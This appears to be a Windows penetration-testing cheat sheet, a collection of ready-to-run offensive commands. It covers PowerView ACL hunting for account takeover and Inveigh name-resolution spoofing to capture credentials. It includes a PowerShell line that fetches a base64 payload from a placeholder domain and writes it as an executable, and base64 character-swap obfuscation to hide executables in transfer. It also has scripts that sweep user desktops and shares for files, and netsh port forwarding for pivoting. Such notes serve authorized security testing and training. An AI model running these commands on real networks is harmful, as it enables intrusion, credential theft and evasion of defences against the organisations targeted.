 # Windows based Pentesting

## Tools
- Nmap   
  Download https://nmap.org/dist/nmap-7.91-setup.exe   

- **PowerView**   
  Get write accessible shares:   
  `Find-DomainShare -CheckShareAccess`   
  Find accounts which have ACLs for account takeover:   
  `Get-DomainObjectAcl -SearchBase "CN=Users,DC=domain,DC=local" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`   
  
- AccessChk.exe   
  Get write accessible files /folders for specific user on specific directory:   
  `accesschk64.exe -uwdqs johnwayne \\dc01.domain.local\NETLOGON`   

- Crackmapexec   
  Download and setup Python 3 from: https://www.python.org/downloads/windows/   
  Download and setup MS Build Tools for C++ from: https://visualstudio.microsoft.com/de/visual-cpp-build-tools/   
  Open cmd.exe and run:   
  `python -m pip install pipx`   
  `pipx ensurepath`  
  `pipx install crackmapexec`   
  Use CrackMapExec in cmd.exe with e.g.:   
  `cme smb 172.21.11.0/24 -u user1 -p 'password' --shares`   

- Impacket   
  After setting up python, download the impacket repository and unpack it: https://github.com/SecureAuthCorp/impacket   
  Afterwards set up with:   
  `pip install .`   
  `pip install pyReadline`   

- Inveigh   
  PowerShell based Responder: https://github.com/Kevin-Robertson/Inveigh   
  Note: Requires elevated privileges!   
  Example:   
  `Invoke-Inveigh -LLMNR Y -mDNS Y -NBNS Y -SpooferIP 172.10.10.1 -ConsoleOutput Y -HTTP N`   
  
- SSLScan   
  https://github.com/rbsec/sslscan/releases/   
  
- EyeWitness   
  Make screenshots of every HTTP/HTTPS target:   
  `.\EyeWitness.exe -f .\targets_http.txt -o c:\temp\EyeWitness\`   
  Whereas the file targets_http.txt contains all URLs with <protocol>://<IP or hostname>:<port>

- Webserver Directory Bruteforcing   
  Use Get-HTTPStatus from PowerSploit:   
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Get-HttpStatus.ps1   
  `foreach($target in (gc .\targets_http_ip.txt)){ Get-HttpStatus -Target $target -Path .\www_wordlist.txt }`   

## Helpful PowerShell commands and scripts  
### Base64 encoded powershell command
```powershell
$command = '"test" | out-file C:\users\jdoe\desktop\psout.txt'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encodedCommand
```

### File Transfer
- Download base64 encoded files:   
  `[System.IO.File]::WriteAllBytes("c:\windows\temp\telem.exe",[System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring("https://XOURDOMAIN.COM")))`   

- convert to base64 and replace A with @ for obfuscation:   
  ```
  $base64string = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\temp\test.exe"))
  $newstring = $base64string -creplace ('A','@') # NOTE: creplace is important because it must be case sensitive!
  $newstring | Out-File C:\Users\vkoch\Desktop\newfile.b64
  ```
- Convert back after download:   
  ```  
  $ByteArray = [System.Convert]::FromBase64String("(Get-Content "C:\Users\username\Downloads\FFPortable.b64") -creplace ('@','A')")
  [System.IO.File]::WriteAllBytes("C:\temp\newfile.exe", $ByteArray)
  ```
  
- Download through proxyserver:   
```
powershell -Command "[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy(); [System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; (New-Object Net.WebClient).DownloadFile('https://github.com/SnaffCon/Snaffler/releases/download/0.9.11/Snaffler.exe', 'snaffler.exe')"
```
Specify TLS:   
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

  
### Recon
- Portscanning on single port without ping test:   
  `New-Object System.Net.Sockets.TCPClient -ArgumentList "hostname.domain.local",3389`   
  
- Gather active user sessions on Windows:   
  Check: https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-NetSessionEnum.ps1   

- SMB Share Wildcard search. If you find an interesting share which e.g. contains user profiles (e.g. citrix profiles) and you want search for every txt file in every profiles desktop folder. The wildcard in this case replaces the subfolder (and some other levels of directories) where the folder name is the username.    
  ```
  $someshare = "\\hostxy\share$\citrix_profiles"
  $dirs = Get-ChildItem -Path "$someshare\*\Desktop" -Directory
  $dirs | % {get-childitem -Path $_ *.txt} | % {$_.FullName}
  ```   
  Search all files on all users desktop:   
  `$dirs = Get-ChildItem -Path "C:\users\*\Desktop" -Directory; $dirs | % {get-childitem -Path $_ *.*} | % {$_.FullName}`   
  Search for only specific extensions:   
  `$dirs = Get-ChildItem -Path "C:\users\*\Desktop" -Directory; $dirs | % {get-childitem -Path $_ -include ("*.txt","*.ps1","*.cmd") -recurse} | % {$_.FullName}`   
  
- Check current users file permissions:   
```
  $files = get-childitem -path c:\some\path\with\lotsoffiles;
  foreach($file in $files){
    $filefullname = $file.FullName;
    $acl = get-acl $filefullname;
    foreach($item in $acl.access){
        if(($item.IdentityReference -like "BUILTIN\Users") -or ($item.IdentityReference -like "Everyone") -or ($item.IdentityReference -like "*$env:username")){
            write-host "+++++++++++++++++++++++++++++++++++++++++++";
            write-host "file: $filefullname";
            $item.FileSystemRights;
        }
    }
}
```   
List all folder permissions of a specific user or group (in this example "BUILTIN\Users" meaning every user): 
```
$FolderPath = Get-ChildItem -Directory -Path "\\computername\share\users"
$Output = @()
ForEach ($Folder in $FolderPath) {
    $Acl = Get-Acl -Path $Folder.FullName
    ForEach ($Access in $Acl.Access) {
if($access.IdentityReference -eq 'BUILTIN\Users'){
$Properties = [ordered]@{'Folder Name'=$Folder.FullName;'Group/User'=$Access.IdentityReference;'Permissions'=$Access.FileSystemRights;'Inherited'=$Access.IsInherited}
$Output += New-Object -TypeName PSObject -Property $Properties
}
}
}
$Output | Out-GridView
```
Translate SID to username:   
`((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-xxxx-xxxx-xxxx-xxxx")).Translate( [System.Security.Principal.NTAccount])).value`   

### Office File Metadata 
Get Office file metadata:    
```
function Get-FileMetadata {
    Param (
        [Parameter(Mandatory = $true)][string]$Path
	)
    $shell = New-Object -COMObject Shell.Application
$folder = Split-Path $path
$file = Split-Path $path -Leaf
$shellfolder = $shell.Namespace($folder)
$shellfile = $shellfolder.ParseName($file)
$outputdata = @()
0..287 | Foreach-Object { $INDEX = '{0} = {1}' -f $_, $shellfolder.GetDetailsOf($null, $_);$indxnr = $($INDEX.Split("=")[0]); $indxname = $($INDEX.Split("=")[1]);$propvalue = $($shellfolder.GetDetailsOf($shellfile, $indxnr)); if($propvalue -ne ""){$data = [pscustomobject]@{'PropertyName'=$indxname;'PropertyValue'=$propvalue}; $outputdata += $data}}
$outputdata | format-table
}

```

## Port Forwarding on Windows
- Setup netsh based port forwarder:      
  `netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp`   
- Show port forwardings:   
  `netsh interface portproxy show v4tov4`   
- Remove:
  `netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444`   
  
## Quick SMB Wildcard search
```
$readshare = Read-Host "please provide path";$readext = Read-Host "Please provide extension you want to list (without dot, e.g. ps1)";Get-Childitem -Path $readshare -ErrorAction SilentlyContinue -Recurse -Filter "*.$readext";
```

## Pass-The-Things
Diagram created by Charlie Bromberg (@_nwodtuhs):   
![shutdown_passthethings_drawing.webp](shutdown_passthethings_drawing.webp)
